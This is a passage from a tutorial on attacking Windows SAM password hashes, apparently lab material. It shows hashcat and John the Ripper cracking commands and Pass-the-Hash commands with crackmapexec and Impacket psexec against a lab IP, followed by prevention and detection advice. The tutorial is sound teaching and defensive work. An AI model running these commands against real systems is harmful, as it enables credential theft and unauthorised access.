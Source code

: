 ```bash
sudo hashcat -m 1000 64f12cddaa88057e06a81b54e73b949b /usr/share/wordlists/rockyou.txt
```

Output:

```
64f12cddaa88057e06a81b54e73b949b:Password1
```

#### Using John the Ripper

```bash
john --format=NT hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

### Pass-the-Hash (PtH) Attacks

Instead of cracking the hash, you can use the hash directly in a Pass-the-Hash attack:

```bash
crackmapexec smb 10.129.42.198 -u Administrator -H 31d6cfe0d16ae931b73c59d7e0c089c0
```

With tools like Impacket:

```bash
psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0 Administrator@10.129.42.198
```

### Prevention and Defense

#### Protecting the SAM Database

Microsoft recommends several measures to protect the SAM database:

1. **Enable BitLocker**: Full disk encryption prevents offline attacks
2. **Use strong passwords**: Complex passwords are harder to crack
3. **Implement account lockout policies**: Prevents brute-force attempts
4. **Restrict administrative access**: Limit who can extract the SAM database
5. **Monitor for suspicious activities**: Watch for unauthorized registry exports
6. **Regular security updates**: Keep systems patched against known vulnerabilities
7. **Use Windows Defender Credential Guard**: Isolates and hardens credential storage

#### Detecting SAM Extraction

Signs that someone might be attempting to extract the SAM database:

1. Unusual access to registry export utilities
2. Creation of Volume Shadow Copies
3. Unexpected registry backup files
4. Mimikatz or similar tools detected on the system
5. Unusual process activity with SYSTEM privileges

### Hash Format Reference

#### NT Hash
